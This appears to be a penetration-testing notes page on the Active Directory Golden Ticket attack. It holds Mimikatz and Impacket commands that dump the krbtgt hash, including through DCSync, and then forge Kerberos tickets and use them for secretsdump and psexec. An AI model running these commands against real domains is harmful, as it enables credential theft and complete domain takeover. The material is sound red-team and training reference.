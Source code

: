 # Golden Ticket

#### Priv Required: <mark style="color:purple;">krbtgt account hash</mark>

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain (includes all domain forest). Since the password hash is shared by all domain controllers of all forest, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a **Golden Ticket attack**. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash





#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**
* **Domain name**
* **SIDS** (in Cross-Forest Attacks)

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="Powershell" %}
```powershell
whoami /all
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](../ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

Or other ways...

## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NAME

Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"' -Computer $DC_NAME
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack

To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\krbtgt"'
```



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or group\_id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
# Create the golden ticket (with an RC4 key, i.e. NT hash)
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER" -groups 512 -user-id 1114

# Create the golden ticket (with an AES 128/256bits key)
impacket-ticketer -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser" -groups 512 -user-id $TARGET_USER_ID

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser" -groups 512 -user-id $TARGET_USER_ID
```
{% endcode %}

{% hint style="warning" %}
Then target user must be in the Domain
{% endhint %}



Check the klist

```powershell
klist
```

## Use Golden Ticket

When we generate a ticket, we'll have a TGT (Ticket Granting Ticket). To use this ticket for a specific service, we have to craft an ST (Service Ticket) for the specific service we want.

To find the services available to use inside the domain, we can use this command:

```bash
impacket-GetUserSPNs DOMAIN/USER:'PASS' -dc-ip <DC_IP>
```

This is all the possible services:

<details>

<summary>SPNs list</summary>

| SPN                        | Use Case / Maps to                            | Description                                      |
| -------------------------- | --------------------------------------------- | ------------------------------------------------ |
| `CIFS/hostname`            | SMB / File shares / Smbclient                 | Often used for lateral movement or dumping files |
| `HOST/hostname`            | RDP, WMI, PsExec, WinRM                       | Generic system access — many tools use this      |
| `LDAP/hostname`            | LDAP directory queries                        | Used to query AD objects                         |
| `HTTP/hostname`            | WinRM, web services, Outlook Web Access (OWA) | Required for PowerShell Remoting                 |
| `RPCSS/hostname`           | Remote Procedure Call                         | Rare, used in some remote COM/DCOM scenarios     |
| `MSSQLSvc/hostname:port`   | Microsoft SQL Server                          | Enumerate or access databases                    |
| `WSMAN/hostname`           | PowerShell Remoting                           | Alternative to `HTTP/hostname` for WinRM         |
| `SMTPSVC/hostname`         | SMTP (Exchange)                               | Email systems                                    |
| `IMAP/hostname`            | IMAP (Exchange)                               | Mailbox access                                   |
| `POP/hostname`             | POP3 (Exchange)                               | Mailbox access                                   |
| `TERMSRV/hostname`         | Remote Desktop Services (RDP)                 | For interacting with Terminal Services           |
| `VPN/hostname`             | VPN services                                  | Rare, usually edge devices                       |
| `WINRM/hostname`           | PowerShell Remoting                           | Also often mapped to `HTTP/hostname`             |
| `FQDN$` (computer account) | Implicitly covered under `HOST/hostname`      | Used when impersonating computer accounts        |
| `SVC/hostname` (custom)    | Custom apps registered with SPNs              | Use `setspn -Q */hostname` to enumerate          |

</details>

```bash
impacket-getST -spn 'SERVICE/FQDN' -k -no-pass DOMAIN/USER_OF_THE_TGT -debug
```



### mimikatz

Once we have created the Golden Ticket with mimikatz in the current session, we have to open a new cmd to the current privileges.

```powershell
mimikatz > misc::cmd # this open cmd promt with current privileges
```

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

# create a ST for CIFS service 
impacket-getST -spn 'CIFS/FQDN_DOMAIN' -k -no-pass DOMAIN/USER_OF_THE_TGT -debug

# set the new ST
export KRB5CCNAME=$(pwd)/NAME.ccache

# use ST to use secretdump
imapcket-secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}

### psexec

```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

impacket-psexec administrator@<DC_IP> -k -no-pass
```

## GoldenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







